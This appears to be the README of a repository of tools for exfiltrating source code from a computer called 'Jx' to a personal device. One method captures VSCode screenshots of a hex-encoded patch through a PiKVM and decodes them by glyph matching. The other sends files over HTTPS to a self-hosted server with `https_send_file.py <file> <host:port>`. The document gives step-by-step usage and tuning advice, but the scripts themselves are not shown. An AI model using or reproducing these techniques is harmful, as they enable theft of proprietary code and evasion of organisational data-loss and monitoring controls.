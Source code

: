 # Terms
This repo will require two computers, which I will refer to as Jx and PC. Jx is the computer you want to exfiltrate code from. PC is your personal device where you receive the code.

# PiKVM Image Exfiltration  
## Tests  
Test different VSCode font settings. I've found the following settings work best, showing about 40x190 rows and columns. Use a light theme or invert the colors in the script.
```
"workbench.colorTheme": "Default Light Modern",
"editor.fontWeight": "bold",
"editor.fontSize": 18,
"editor.fontFamily": "Consolas"
```
Update the hostname and authentication information in test.py and run. Inspect the temp images to ensure the editor is correctly cropped and there are little to no edges. Re-run the test.py script as needed to get the correct CROP_DIMENSIONS. Experiment with different font weights, font sizes, font families, and crop dimensions until there is a matched string.

## Usage
Update the constants in pikvm_exfil.py  
Jx: Run `create_patch.py <repo>` to create a patch and hex file.  
Jx: Navigate to the created .hex file and update your VSCode font settings. Ensure the hex file starts at the top of the file. It will use the first line to create a glyph map.  
PC: Start the script. Note that this script is computationally expensive for both your PiKVM and PC. It will take screenshots every 100ms and process.  
Jx: Run `pgdn.ps1` to press PgDn on the VSCode window. Click into the code editor to apply the PgDn command. Ctrl+C to stop the script when done.  
PC: Ctrl+C the script when done. The output strings will be combined together and the first line glyph map will be removed. The resulting string will be written to a hex file and converted into a patch file.  
PC: Run `apply_patch.py <patch_path> <repo>` to apply the patch file to the repo  

## Performance Notes
It's slow AF, we're limited by the PiKVM screenshot api. HDMI Exfil will be faster because you can process at 60hz.

# HDMI Image Exfiltration  
Coming soon!

# HTTPS Exfiltration
PC: Run this command in the temp folder to create cert and key files: `openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`  
PC: Start `server_exfil.py`  
Jx: Run `https_send_file.py <file> <host:port>`  

# TODO
Image Exfiltration with HDMI  
HTTPS Exfiltration features  
Glyph matching with vpi (https://docs.nvidia.com/vpi/sample_template_matching.html) and python CUDA (https://nvidia.github.io/cuda-python/latest)  